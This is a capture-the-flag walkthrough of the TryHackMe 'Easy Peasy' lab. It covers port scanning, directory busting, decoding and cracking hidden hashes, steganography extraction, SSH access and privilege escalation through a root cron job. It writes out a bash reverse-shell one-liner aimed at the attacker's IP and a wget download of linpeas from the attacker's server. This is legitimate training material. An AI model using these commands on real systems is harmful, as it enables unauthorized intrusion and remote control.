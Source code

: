# Easy Peasy Walkthrough WriteUp

Link to the machine : [https://tryhackme.com/room/easypeasyctf](https://tryhackme.com/room/easypeasyctf)

Scanning this machine using NMAP `nmap -vv -oN nmap-basic IP`, doing this way, NMAP searches the top ports and gives a brief about the top ports present, in a way more faster manner, when compared with including all the flags. Then we can use flags on specific ports. - `nmap -sC -sV -vv -A -px,x,x -oN nmap-detailed IP` <br>
On completion, NMAP gives 1 port open `80` and it seems to be running a ngnix web server.

We can start to enumarate the web-server and find out the directories, we could `wfuzz`, `gobuster`, etc.
I personally like `gobuster` for this task so we can run it side by side NMAP, for getting all the ports.(if any)

Till these tools run, we can go and manually search for some common files that are expected to be in a webserver like `robots.txt` <br>
Not much of a luck there!! It doesn't give us any useful info,
```
User-Agent:*
Disallow:/
Robots Not Allowed
```

While the NMAP is still running we can analyze the results spit by gobuster.<br>
```
$ gobuster dir -u IP -w ~/SecLists/Discovery/Web-Content/common.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://IP
[+] Threads:        10
[+] Wordlist:       /home/cardinal/SecLists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/09 01:59:47 Starting gobuster
===============================================================
/hidden (Status: 301)
/index.html (Status: 200)
/robots.txt (Status: 200)
===============================================================
2020/08/09 02:03:41 Finished
===============================================================
```

Few new files, could be seen and one seems interesting - `hidden` have 301 (Moved Permanently) status code. But inspite of that we shall check that in our browser. And we are greeted with an image incorporated directly from pixabay. So, nothing useful...keeping on our directory busting, inside hidden we found another intersting directory `/xxxxxxxxxxx` and in it's source code there is a base64 hash which decodes to the first flag.

In the meanwhile, NMAP all-ports scan is complete and we found there are 3 ports open in total. Running those 3 ports with `nmap -sC -sV -p80,6498,65524 -vv -oN nmap-detailed -T4 IP`, which yielded the result,
```
PORT      STATE SERVICE REASON  VERSION
80/tcp    open  http    syn-ack nginx 1.16.1
| http-methods: 
|_  Supported Methods: GET HEAD
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: nginx/1.16.1
|_http-title: Welcome to nginx!
6498/tcp  open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:4a:2b:22:ac:d9:56:09:f2:da:12:20:57:f4:6c:d4 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCf5hzG6d/mEZZIeldje4ZWpwq0zAJWvFf1IzxJX1ZuOWIspHuL0X0z6qEfoTxI/o8tAFjVP/B03BT0WC3WQTm8V3Q63lGda0CBOly38hzNBk8p496scVI9WHWRaQTS4I82I8Cr+L6EjX5tMcAygRJ+QVuy2K5IqmhY3jULw/QH0fxN6Heew2EesHtJuXtf/33axQCWhxBckg1Re26UWKXdvKajYiljGCwEw25Y9qWZTGJ+2P67LVegf7FQu8ReXRrOTzHYL3PSnQJXiodPKb2ZvGAnaXYy8gm22HMspLeXF2riGSRYlGAO3KPDcDqF4hIeKwDWFbKaOwpHOX34qhJz
|   256 bf:86:c9:c7:b7:ef:8c:8b:b9:94:ae:01:88:c0:85:4d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN8/fLeNoGv6fwAVkd9oVJ7OIbn4117grXfoBdQ8vY2qpkuh30sTk7WjT+Kns4MNtTUQ7H/sZrJz+ALPG/YnDfE=
|   256 a1:72:ef:6c:81:29:13:ef:5a:6c:24:03:4c:fe:3d:0b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICNgw/EuawEJkhJk4i2pP4zHfUG6XfsPHh6+kQQz3G1D
65524/tcp open  http    syn-ack Apache httpd 2.4.43 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.43 (Ubuntu)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So, we got more things to look upon,
1. Apache WebServer
2. Ngnix WebServer
3. SSH

We moved to enumerate the Apache WebServer http://IP:65524/ and it gives a basic Apache config page, firstly we run gobuster in the background. Since gobuster by default searches for websites on port 80, we have to use proxy and cook the command like this - `gobuster dir -p http://IP:65524 -u http://IP -w ~/SecLists/Discovery/Web-Content/common.txt`.
<br><br>
    Manually looking through the source code of the same we found some interesting stuff,
```
<span class="floating_element">
          Apache 2 It Works For Me
	<p hidden>its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu</p>
</span>
```

Looking at this message it comes to mind, that the hash must be baseSomething. Let's jump into CyberChef and check our claim.
<br>
The encoding turns out to be `base64` which gives - `/xxxxxxxxxxxxxxx`. This looks like some kind of directory <- We will look this later.
<br>
<br>
Further go through the source code, it contains lots of juicy information - a flag.

Since it is a web server, we will go for `robots.txt`, there we find some more juicy stuff,
```
User-Agent:*
Disallow:/
Robots Not Allowed
User-Agent:a18672860d0510e5ab6699730763b250
Allow:/
This Flag Can Enter But Only This Flag No More Exceptions
```
Here we get a hash(which seems to me like a md5 hash), our first step will be to crack it, for this we are gonna use a website [MD5Hashing](md5hashing.net), which yields us another flag.


After we are satisfied with whatever we have done with this page, then we move to `/xxxxxxxxxxxxxxx`, and once again we are greeted with an image and looking the source code gave us another hash. So, we have two things:
* Image
* Hash

```
<body>
<center>
<img src="binarycodepixabay.jpg" width="140px" height="140px"/>
<p>940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81</p>
</center>
</body>
```

On doing some research online, found out a tool called [hash-identifier](https://gitlab.com/kalilinux/packages/hash-identifier) and passing the hash through it, it gives us a list of possible hashes.

```
 HASH: 940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81

Possible Hashs:
[+] SHA-256
[+] Haval-256

Least Possible Hashs:
[+] GOST R 34.11-94
[+] RipeMD-256
[+] SNEFRU-256
[+] SHA-256(HMAC)
[+] Haval-256(HMAC)
[+] RipeMD-256(HMAC)
[+] SNEFRU-256(HMAC)
[+] SHA-256(md5($pass))
[+] SHA-256(sha1($pass))
```

Trying to crack the hash one by one using MD5Hashing using the given hashes, a hit came in `GOST` hashing algorithm. It got cracked!
<br>
We have no clue for what this password will be used, so we will keep it on hold. We hav got a image and we can try some stegography using `steghide` and this password might be used for extraction. Let's see!

```
$ steghide extract -sf binarycodepixabay.jpg 
Enter passphrase: 
wrote extracted data to "secrettext.txt".
```

Used that password to extract the `secrettext.txt`. And in that we get another set of credentails. And password seems to be encrypted!
```
username:boring
password:
01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001
```

On decoding the password we have another set of credentials and the only place I could think of now is SSH that we found on port 6498. Let give it a try!

Voila! We got into the server!!

And retrive the user.txt, with the following message,
```
$ ssh boring@10.10.30.104 -p 6498
*************************************************************************
**        This connection are monitored by government offical          **
**            Please disconnect if you are not authorized              **
** A lawsuit will be filed against you if the law is not followed      **
*************************************************************************
boring@10.10.30.104's password: 
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
You Have 1 Minute Before AC-130 Starts Firing
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
!!!!!!!!!!!!!!!!!!I WARN YOU !!!!!!!!!!!!!!!!!!!!
boring@kral4-PC:~$ ls
user.txt
boring@kral4-PC:~$ cat user.txt 
User Flag But It Seems Wrong Like It`s Rotated Or Something
synt{xxxxxxxxxxxxxxx}
```

Trying to do some rotation using ROT13 may provide us with some sensible output. And yes, it did, we have another flag! 
<br>
Since, we have the user's flag now we also have to find the root's flag. Let's try for that...
As we are into the machine, we can try and enumerate the machine by running linpeas.
<br>
To get the linpeas into the remote machine, I created a simple python web server - and used wget to download the file from my machine to remote machine.

On my machine...
```
$ python3 -m http.server 1234
Serving HTTP on 0.0.0.0 port 1234 (http://0.0.0.0:1234/) ...
```

On remote machine...
```
boring@kral4-PC:~$ wget myIP:1234/linpeas.sh
```

And made `linpeas.sh` executeable and run it. While analyzing the log generated by linpeas, one specific file bothered me the most - `/var/www/.mysecretcronjob.sh `

This file has permission and this can be run as root so we can use this to get the root flag, by getting a reverse shell on this machine as a root.

```
bash -i >& /dev/tcp/myIP/8080 0>&1
```

After opening a listener in our machine, we run `crontab` in remote machine and we get back a shell which is root. Yay!!

Voila! we get a flag, which was hidden in `.root.txt`!!

Box Pwned!!
